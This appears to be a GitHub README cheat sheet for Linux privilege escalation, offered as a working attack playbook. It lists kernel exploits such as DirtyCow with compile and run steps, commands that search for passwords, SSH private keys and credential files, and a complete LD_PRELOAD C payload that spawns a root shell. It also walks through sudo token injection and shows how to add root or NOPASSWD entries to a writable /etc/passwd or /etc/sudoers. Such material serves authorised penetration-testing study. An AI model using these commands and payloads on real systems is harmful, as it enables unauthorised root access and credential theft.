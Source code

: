 # linux-priv-Esc

# GTFOBinn
https://gtfobins.github.io


# Initial Enumeration
uname -a, netstat -ano, history

# Automated tools
1) Linux-Exploit-Suggester  https://github.com/mzet-/linux-exploit-suggester
2) Linux-Privilege-Script https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
3) Linux-Enumeration https://github.com/rebootuser/LinEnum


# Kernal-Exploit

1) CVE-2016-5195 (DirtyCow)
Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8  
Code: https://github.com/FireFart/dirtycow/blob/master/dirty.c  

compile:- gcc -pthread dirty.c -o dirty -lcrypt  
Time to execute:- "./dirty" or "./dirty my-new-password"

2) CVE-2010-3904 (RDS)  
Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8  
https://www.exploit-db.com/exploits/15285/

3) CVE-2010-4258 (Full Nelson)  
Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04)  
https://www.exploit-db.com/exploits/15704/  

4) CVE-2012-0056 (Mempodipper)  
Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)  
https://www.exploit-db.com/exploits/18411  


# Weak File Permission 

ls -l | grep shadow  
ls -l | grep passwd

# File Containing Password

grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null  
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;

# Old passwords in /etc/security/opasswd  
/etc/security/opasswd 

# Last edited files
*Files that were edited in the last 10 minutes*  
find / -mmin -10 2>/dev/null | grep -Ev "^/proc"

# In memory passwords  
strings /dev/mem -n10 | grep -i PASS

# Find sensitive files  
$ locate password | more  
/boot/grub/i386-pc/password.mod  
/etc/pam.d/common-password  
/etc/pam.d/gdm-password  
/etc/pam.d/gdm-password.original  
/lib/live/config/0031-root-password  

# SSH Key  
*Sensitive files*  
find / -name authorized_keys 2> /dev/null  
find / -name id_rsa 2> /dev/null

# SUDO  
* NOPASSWD Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.*  
$ sudo -l

# LD_PRELOAD and NOPASSWD  
If LD_PRELOAD is explicitly defined in the sudoers file  

Defaults        env_keep += LD_PRELOAD  

Compile the shared C code below on victim machine with gcc -fPIC -shared -o shell.so shell.c -nostartfiles  

#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
void _init() {  
	unsetenv("LD_PRELOAD");  
	setgid(0);  
	setuid(0);  
	system("/bin/sh");  
}  
Execute any binary with the LD_PRELOAD to spawn a shell : sudo LD_PRELOAD=<full_path_to_.so_file> <program>, e.g: sudo LD_PRELOAD=/tmp/shell.so whoami  

# sudo_inject  
Using https://github.com/nongiach/sudo_inject  

$ sudo whatever  

[sudo] password for user:  

# Press <ctrl>+c since you don't have the password.  
# This creates an invalid sudo tokens.  
$ sh exploit.sh  
.... wait 1 seconds  
$ sudo -i # no password required :)  
# id  
uid=0(root) gid=0(root) groups=0(root)  
	
Slides of the presentation : https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf  


# Writabe /etc/passwd  
If we have permission to write a passwd file in linux then generate password from this command.  

openssl passwd -1 -salt escalate  
mkpasswd -m SHA-512 esclate

Then add the generated password.

root:GENERATED_PASSWORD_HERE:0:0:root:/root:/bin/bash  
E.g: root:$1$hacker$TzyFIv0/R/c28W.GAeLw.1:0:0:root:/root:/bin/bash

You can now use the su command with root:esclate  
E.g: su root  

# Writable /etc/sudoers  
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers  

# use SUDO without password  
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers  
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers  
